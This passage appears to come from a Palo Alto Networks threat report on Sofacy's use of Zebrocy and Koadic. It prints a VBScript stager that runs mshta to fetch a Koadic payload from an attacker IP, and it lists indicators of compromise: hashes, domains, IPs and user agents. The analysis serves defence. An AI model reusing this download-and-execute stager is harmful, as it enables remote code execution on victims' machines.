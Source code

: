 



set objshell = createobject(\"wscript.shell\")
objshell.run \"mshta hxxp://86.106.131.177:6500/zIZFh\",vbhide




12

set objshell = createobject(\"wscript.shell\")objshell.run \"mshta hxxp://86.106.131.177:6500/zIZFh\",vbhide





The Koadic C2 server will respond to this request with Javascript code that acts as the Koadic staging payload, which allows the actor to run additional Koadic modules on the end system to carry out their post-exploitation activities. Unfortunately, we did not observe the Koadic modules used by Sofacy during out analysis.
IOCs
Domain
supservermgr[.]com
URL
hxxp://supservermgr[.]com/sys/upd/pageupd.php
Zebrocy
d697160aecf152a81a89a6b5a7d9e1b8b5e121724038c676157ac72f20364edc
cba5ab65a24be52214736bc1a5bc984953a9c15d0a3826d5b15e94036e5497df
25f0d1cbcc53d8cfd6d848e12895ce376fbbfaf279be591774b28f70852a4fd8
115fd8c619fa173622c7a1e84efdf6fed08a25d3ca3095404dcbd5ac3deb1f03
f27836430742c9e014e1b080d89c47e43db299c2e00d0c0801a2830b41b57bc1
5b5e80f63c04402d0b282e95e32155b2f86cf604a6837853ab467111d4ac15e2
dd7e69e14c88972ac173132b90b3f4bfb2d1faec15cca256a256dd3a12b6e75d
Koadic
abbad7acd50754f096fdc6551e728aa6054dcf8e55946f90a02b17db552471ca
User Agents
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.04506.30; .NET CLR 3.0.04506.648; InfoPath.1)
Mozilla/5.0 (Windows NT 6.1; WOW64) WinHttp/1.6.3.8 (WinHTTP/5.1) like Gecko
Mozilla v5.1 (Windows NT 6.1; rv:6.0.1) Gecko/20100101 Firefox/6.0.1
IPs
185.25.51[.]198
185.25.50[.]93
220.158.216[.]127
92.114.92[.]102
86.106.131[.]177

DDE Docs
85da72c7dbf5da543e10f3f806afd4ebf133f27b6af7859aded2c3a6eced2fd5
8cf3bc2bf36342e844e9c8108393562538a9af2a1011c80bb46416c0572c86ff

Get updates from  Palo Alto Networks!
Sign up to receive the latest news, cyber threat intelligence and research from us



